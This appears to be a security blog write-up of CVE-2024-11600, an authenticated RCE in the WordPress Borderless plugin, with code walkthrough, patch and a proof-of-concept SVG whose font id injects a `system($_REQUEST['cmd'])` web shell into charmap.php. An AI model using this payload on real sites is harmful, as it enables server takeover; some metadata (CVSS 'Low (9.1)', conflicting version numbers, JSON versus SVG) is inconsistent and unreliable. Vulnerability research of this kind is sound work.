


# CVE-2024-11600 Analysis & POC


<!--more-->

## CVE & Basic Info

The WordPress plugin **The Borderless – Widgets, Elements, Templates and Toolkit for Elementor & Gutenberg** contains a **Remote Code Execution** vulnerability in all versions up to and including **1.5.9** via the **write_config** function. The root cause is improper **sanitization** of an imported **JSON** file. This allows an authenticated attacker with **Administrator-level access** or higher to execute code on the server.

* **CVE ID**: [CVE-2024-11600](https://www.cve.org/CVERecord?id=CVE-2024-11600)
* **Vulnerability Type**: Remote Code Execution
* **Affected Versions**: <= 1.6.0
* **Patched Versions**: 1.6.1
* **CVSS severity**: Low (9.1)
* **Required Privilege**: Administrator
* **Product**: [WordPress Borderless Plugin](https://wordpress.org/plugins/borderless/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version – Borderless**:

  * `1.6.0` – **vulnerable**
  * `1.6.1` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any other diff tool.

## Cause

**In the vulnerable version (v1.6.0):**

```php {title="icon-manager.php v1.6.0" data-open=true hl_lines=[15]}
function write_config() {
    $charmap = $this->paths['tempdir'] . '/' . $this->paths['config'];
    $handle  = @fopen( $charmap, 'w' );
    if ( $handle ) {
        fwrite( $handle, '<?php $icons = array();' );
        
        // Safely build the PHP array with sanitized content
        foreach ( $this->json_config[ $this->ip_name ] as $icon => $info ) {
            if ( ! empty( $info ) ) {
                $delimiter   = "'";
                $safe_icon   = esc_attr( $icon );
                $safe_class  = esc_attr( $info["class"] );
                $safe_tags   = esc_attr( $info["tags"] );

                fwrite( $handle, "\r\n" . '$icons[\'' . $this->ip_name . '\'][' . $delimiter . $safe_icon . $delimiter . '] = array("class"=>' . $delimiter . $safe_class . $delimiter . ',"tags"=>' . $delimiter . $safe_tags . $delimiter . ');' );
            } else {
                $this->delete_folder( $this->paths['tempdir'] );
                die( esc_html__( 'Error generating the configuration file.', 'borderless' ) );
            }
        }
        fclose( $handle );
    } else {
        $this->delete_folder( $this->paths['tempdir'] );
        die( esc_html__( 'Error generating the configuration file.', 'borderless' ) );
    }
}
```

The `write_config()` function writes the icon configuration into a PHP file. Each icon is stored as:

```php
$icons['<ip_name>']['<icon_name>'] = array("class"=>'<class>',"tags"=>'<tags>');
```

Before being written to the file, this value is taken from the `id` attribute of the `<font>` tag in the SVG and passed through:

```php {title="icon-manager.php create_config() v1.6.0" data-open=true hl_lines=[15]}
$this->ip_name = (string) $font_attr['id'];
$this->ip_name = sanitize_text_field( $this->ip_name );
```

`sanitize_text_field()` only removes HTML tags, control characters, and excessive whitespace. It does **not** prevent dangerous special characters in a PHP context (such as `'`, `]`, `;`).

As a result, an attacker can inject a payload into the `id` attribute of the SVG:

```xml
<font id="']; php_code;//">
```

The line written to the file then becomes:

```php
$icons['']; php_code;//']['<icon_name>'] = array("class"=>'<class>',"tags"=>'<tags>');
```

**The patch (v1.6.1):**

```php {title="index.php v1.6.1" data-open=true hl_lines=[]}
$this->ip_name = sanitize_file_name( $this->ip_name );
if ( empty( $this->ip_name ) ) {
    $this->ip_name = 'unknown';
}
```

The patch replaces `sanitize_text_field()` with `sanitize_file_name()`, which removes all dangerous special characters (`'`, `"`, `;`, `|`, `..`, whitespace, complex Unicode, etc.) and normalizes the string into a safe file/key name. This prevents payload injection that could break PHP syntax in the configuration file.



## Analysis

The plugin registers a submenu:

```php {title="dashboard.php v1.6.0" data-open=true hl_lines=[]}
function borderless_icon_fonts_submenu() {
    $icon_manager_page = add_submenu_page(
        'borderless.php',
        esc_html__( "Icon Fonts", "borderless" ),
        esc_html__( "Icon Fonts", "borderless" ),
        'manage_options',
        'borderless-fonts',
        'borderless_custom_icons_menu'
    );
    $Borderless_IF  = new Borderless_IF;
    add_action('admin_print_styles-' . $icon_manager_page, array( $Borderless_IF, 'admin_scripts' ) );
}
```

* `'Icon Fonts'`: submenu title
* `'manage_options'`: this menu is for Administrators only
* `'borderless-fonts'`: menu slug

Corresponding in the Admin Dashboard:



* `'borderless_custom_icons_menu'`: callback executed when accessing the menu

```php {title="icon-manager.php v1.6.0" data-open=true hl_lines=[]}
function borderless_custom_icons_menu() {
    $Borderless_IF = new Borderless_IF;
    $Borderless_IF->icon_pack_manager();
}
```

Here, a `Borderless_IF` object is instantiated:

```php {title="icon-manager.php v1.6.0" data-open=true hl_lines=[]}
class Borderless_IF {
    function __construct() {
        $this->paths            = wp_upload_dir();
        $this->paths['fonts']   = 'borderless_icon_fonts';
        $this->paths['temp']    = trailingslashit( $this->paths['fonts'] ) . 'borderless_temp';
        $this->paths['fontdir'] = trailingslashit( $this->paths['basedir'] ) . $this->paths['fonts'];
        $this->paths['tempdir'] = trailingslashit( $this->paths['basedir'] ) . $this->paths['temp'];
        $this->paths['fonturl'] = set_url_scheme( trailingslashit( $this->paths['baseurl'] ) . $this->paths['fonts'] );
        $this->paths['tempurl'] = trailingslashit( $this->paths['baseurl'] ) . trailingslashit( $this->paths['temp'] );
        $this->paths['config']  = 'charmap.php';

        add_action( 'wp_ajax_borderless_ajax_add_zipped_font', array( $this, 'add_zipped_font' ) );
        add_action( 'wp_ajax_borderless_ajax_remove_zipped_font', array( $this, 'remove_zipped_font' ) );
    }
    ...
}
```

The constructor initializes the necessary paths and hooks. The `write_config()` function uses these paths to build the configuration file path:

```php
$charmap = $this->paths['tempdir'] . '/' . $this->paths['config'];

// <base_url>/wp-content/uploads/borderless_icon_fonts/borderless_temp/charmap.php
```

The AJAX action `wp_ajax_borderless_ajax_add_zipped_font` is registered to handle uploading and adding fonts from a ZIP file, with `add_zipped_font` as the callback that performs extraction and writes the configuration file.

```php {title="icon-manager.php v1.6.0" data-open=true hl_lines=[9,13]}
function add_zipped_font() {
    $cap = apply_filters( 'avf_file_upload_capability', 'update_plugins' );
    if ( ! current_user_can( $cap ) ) {
        die( esc_html__( "You do not have sufficient permissions to use this feature.", "borderless" ) );
    }
    // Retrieve the file path of the zip file
    $attachment = $_POST['values'];
    $path       = realpath( get_attached_file( sanitize_text_field( $attachment['id'] ) ) );
    $unzipped   = $this->zip_flatten( $path, array( '\.eot', '\.svg', '\.ttf', '\.woff', '\.json', '\.css' ) );
    
    // If we managed to unzip the file and save it, extract the SVG file
    if ( $unzipped ) {
        $this->create_config();
    }
    
    // If we did not get a name for the font, do not add it and remove the temp folder
    if ( $this->ip_name == 'unknown' ) {
        $this->delete_folder( $this->paths['tempdir'] );
        die( esc_html__( 'Unable to retrieve the Icon Pack name from your uploaded folder.', 'borderless' ) );
    }
    die( esc_html__( 'borderless_font_added:', 'borderless' ) . $this->ip_name );
}
```

In `add_zipped_font()`, after the user uploads a ZIP file containing the Icon Pack, the plugin performs these steps:

1. Checks for the `update_plugins` capability → Administrator only
2. Unzips and keeps only the necessary files for the Icon Pack: fonts (`.eot`, `.svg`, `.ttf`, `.woff`), `JSON`, `CSS`
3. Calls `create_config()` to generate the configuration file

```php {title="icon-manager.php v1.6.0" data-open=false hl_lines=[64]}
function create_config() {
    $this->json_file = $this->find_json();
    $this->svg_file  = $this->find_svg();
    if ( empty( $this->json_file ) || empty( $this->svg_file ) ) {
        $this->delete_folder( $this->paths['tempdir'] );
        die( esc_html__( 'SVG file or selection.json not found. Please check the integrity of the Icon Pack files.', 'borderless' ) );
    }

    // Attempt to read the SVG file
    $response = wp_remote_fopen( trailingslashit( $this->paths['tempurl'] ) . $this->svg_file );
    $json     = file_get_contents( trailingslashit( $this->paths['tempdir'] ) . $this->json_file );

    if ( empty( $response ) ) {
        $response = file_get_contents( trailingslashit( $this->paths['tempdir'] ) . $this->svg_file );
    }

    if ( ! is_wp_error( $json ) && ! empty( $json ) ) {
        // Load and parse the SVG
        $xml       = simplexml_load_string( $response );
        $font_attr = $xml->defs->font->attributes();
        $glyphs    = $xml->defs->font->children();

        // Sanitize the font name (ip_name)
        $this->ip_name = (string) $font_attr['id'];
        $this->ip_name = sanitize_text_field( $this->ip_name );

        $font_folder = trailingslashit( $this->paths['fontdir'] ) . $this->ip_name;
        if ( is_dir( $font_folder ) ) {
            $this->delete_folder( $this->paths['tempdir'] );
            die( esc_html__( "There is already an Icon Pack with this name. Please upload with another name.", "borderless" ) );
        }

        // Decode JSON content
        $file_contents = json_decode( $json );
        if ( ! isset( $file_contents->IcoMoonType ) ) {
            $this->delete_folder( $this->paths['tempdir'] );
            die( esc_html__( "This Icon Pack is not an Icomoon pack. Use only Icomoon Icon Pack files.", 'borderless' ) );
        }
        
        // Iterate over icons to build $this->json_config
        $icons = $file_contents->icons;
        foreach ( $icons as $icon ) {
            // Sanitize each piece of data to prevent injection
            $raw_name   = isset( $icon->properties->name ) ? $icon->properties->name : 'unknown';
            $icon_name  = sanitize_text_field( $raw_name );
            
            // Create a "class" by removing spaces and sanitizing further
            $icon_class = str_replace( ' ', '', $icon_name );
            // Remove any other characters that are not typical in a CSS class
            $icon_class = preg_replace( '/[^A-Za-z0-9\-_]/', '', $icon_class );
            
            $raw_tags   = isset( $icon->icon->tags ) ? $icon->icon->tags : array();
            // Sanitize each tag
            $safe_tags  = array_map( 'sanitize_text_field', $raw_tags );
            $tags       = implode( ",", $safe_tags );
            
            $this->json_config[ $this->ip_name ][ $icon_name ] = array(
                "class" => $icon_class,
                "tags"  => $tags
            );
        }

        if ( ! empty( $this->json_config ) && $this->ip_name != 'unknown' ) {
            $this->write_config();
            $this->re_write_css();
            $this->rename_files();
            $this->rename_folder();
            $this->add_font();
        }
    }

    return false;
}
```

This function is the **core** of the Icon Pack importing process. It is responsible for reading data from the SVG and JSON files, then generating the icon configuration used by the plugin.

1. Check for required files

```php
$this->json_file = $this->find_json();
$this->svg_file  = $this->find_svg();
if ( empty( $this->json_file ) || empty( $this->svg_file ) ) {
    $this->delete_folder( $this->paths['tempdir'] );
    die( esc_html__( 'SVG file or selection.json not found...', 'borderless' ) );
}
```

* The plugin searches for a `.json` file and an `.svg` font file in the temporary directory.
* If one of them is missing, the process is aborted.

2. Read SVG and JSON contents

```php
$response = wp_remote_fopen( trailingslashit( $this->paths['tempurl'] ) . $this->svg_file );
$json     = file_get_contents( trailingslashit( $this->paths['tempdir'] ) . $this->json_file );
```

* Uses `wp_remote_fopen` to read the SVG via URL, falling back to `file_get_contents` if it fails.
* Reads the JSON directly from the temporary directory.

3. Parse SVG to get the font name

```php
$xml       = simplexml_load_string( $response );
$font_attr = $xml->defs->font->attributes();
$this->ip_name = (string) $font_attr['id'];
$this->ip_name = sanitize_text_field( $this->ip_name );
```

* Extracts the `id` attribute of the `<font>` tag as the font name (`ip_name`).
* Only sanitized using `sanitize_text_field()` → this is the vulnerable point, because it does not remove dangerous characters in the context of a PHP file.

4. Check for name collisions

```php
$font_folder = trailingslashit( $this->paths['fontdir'] ) . $this->ip_name;
if ( is_dir( $font_folder ) ) {
    $this->delete_folder( $this->paths['tempdir'] );
    die( esc_html__( "There is already an Icon Pack with this name...", "borderless" ) );
}
```

* If a font folder with the same name already exists, the process is aborted.

5. Parse JSON to get icon list

```php
$file_contents = json_decode( $json );
if ( ! isset( $file_contents->IcoMoonType ) ) {
    $this->delete_folder( $this->paths['tempdir'] );
    die( esc_html__( "This Icon Pack is not an Icomoon pack...", 'borderless' ) );
}
```

* Ensures the JSON is a valid IcoMoon pack.
* Iterates over the icon list, sanitizes names, classes, and tags, then stores them in `$this->json_config`.

6. Generate configuration and write file

```php
if ( ! empty( $this->json_config ) && $this->ip_name != 'unknown' ) {
    $this->write_config();
    $this->re_write_css();
    $this->rename_files();
    $this->rename_folder();
    $this->add_font();
}
```

* If the data is valid, the plugin:

  * Writes `charmap.php` containing the `$icons` array
  * Regenerates CSS
  * Renames files and folders
  * Adds the font pack to the system

The required JSON and SVG files look like this:

```json {data-open=true}
{
  "IcoMoonType": "selection",
  "icons": [
    {
      "properties": {
        "name": "home"
      },
      "icon": {
        "tags": ["house", "main"]
      }
    }
  ]
}
```

```xml {data-open=true}
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg">
  <defs>
    <font id="id" horiz-adv-x="1024">
      <font-face font-family="icomoon" units-per-em="1024" ascent="960" descent="-64"/>
      <glyph unicode="&#xe900;" glyph-name="home" d="M512 128L128 512h128v320h192V640h128v192h192V512h128z"/>
    </font>
  </defs>
</svg>
```

## Flow


graph TD
A["Attacker with Administrator privilege"]
--> B["Uploads a ZIP file containing an Icon Pack (SVG + JSON)"]

B --> C["AJAX call: borderless_ajax_add_zipped_font"]
C --> D["zip_flatten() extracts files into /uploads/borderless_icon_fonts/borderless_temp/"]

D --> E["create_config() is executed"]

E --> F["Reads the SVG file"]
F --> G["Extracts font id=... as ip_name"]
G --> H["sanitize_text_field(ip_name) (dangerous characters not removed)"]

E --> I["Reads JSON file"]
I --> J["Builds $this->json_config array"]

H & J --> K["write_config() writes data into charmap.php"]

K --> L["Injected payload is embedded into PHP code"]
L --> M["charmap.php now contains malicious PHP"]

M --> N["Server loads/includes charmap.php"]
N --> O["Remote Code Execution (RCE)"]


## Proof of Concept (PoC)

1. Create a ZIP file containing `rce.json` and `rce.svg`:

```json {data-open=true title="rce.json"}
{
  "IcoMoonType": "selection",
  "icons": [
    {
      "properties": {
        "name": "home"
      },
      "icon": {
        "tags": ["house", "main"]
      }
    }
  ]
}
```

```xml {data-open=true title="rce.svg"}
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg">
  <defs>
    <font id="'];system($_REQUEST['cmd']);//" horiz-adv-x="1024">
      <font-face font-family="icomoon" units-per-em="1024" ascent="960" descent="-64"/>
      <glyph unicode="&#xe900;" glyph-name="home" d="M512 128L128 512h128v320h192V640h128v192h192V512h128z"/>
    </font>
  </defs>
</svg>
```

2. Using an Administrator account, upload the ZIP file at the endpoint:

```
http://localhost/wp-admin/admin.php?page=borderless-fonts
```


3. **RCE result**:


## Conclusion

CVE-2024-11600 demonstrates that using the wrong sanitization function can lead to **Remote Code Execution**. Borderless (≤ 1.6.0) directly takes the `<font id>` value from the SVG, sanitizes it only with `sanitize_text_field()`, and writes it into a PHP file (`charmap.php`). An attacker with Administrator privileges can inject PHP code, which is executed when the file is loaded. Version 1.6.1 fixed this by using `sanitize_file_name()` and a fallback value.

## Key Takeaways

* Always **sanitize according to context** (this data is written into PHP, not plain text).
* Do not use `sanitize_text_field()` for data written into executable source code.
* SVG/ZIP files can also be attack vectors.
* Automatically generating `.php` files must always be strictly controlled.

## References

[Remote Code Execution (RCE)](https://patchstack.com/academy/wordpress/vulnerabilities/remote-code-execution/)

[WordPress Borderless Plugin <= 1.6.0 is vulnerable to Remote Code Execution (RCE)](https://vdp.patchstack.com/database/wordpress/plugin/borderless/vulnerability/wordpress-borderless-plugin-1-5-9-authenticated-administrator-remote-code-execution-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-12-06-cve-2024-11600/  

